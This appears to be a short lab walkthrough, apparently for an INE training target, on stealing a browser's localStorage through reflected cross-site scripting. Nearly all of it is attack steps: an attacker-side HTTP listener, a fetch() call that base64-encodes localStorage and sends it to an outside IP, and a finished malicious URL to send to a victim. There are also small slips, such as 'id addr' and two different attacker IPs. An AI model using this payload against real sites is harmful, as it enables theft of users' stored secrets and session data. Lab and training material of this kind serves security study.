

## Check for xss vulnerable pages in the app

    

After checking try to retrieve local storage data from it

    

Check your Id address

    id addr

Start a Python-based HTTP server on the attacker machine (to receive back the stolen data):

    python3 -m http.server 80

Turn the data in local storage to base64

    btoa(JSON.stringify(localStorage))

Test a fetch request to your server

    fetch(`http://192.9.144.2/${btoa(JSON.stringify(localStorage))}`)

Decode the content received after issuing the XSS payload:

    python3
    import base64
    base64.b64decode("eyJzZWNyZXQiOiJBbnkgYnVncz8iLCJsb2dpbiI6ImJlZSJ9")

Now the attacker has to send this link to the victim and wait for them to click on the link:

**URL:**
     
    http://demo.ine.local/xss_get.php?firstname=%3Cscript%3Efetch(
    http%3A%2F%2F192.237.167.2%2F%24{btoa(JSON.stringify(localStorage))}
    )%3C%2Fscript%3E&lastname=Simth+Jones&form=submit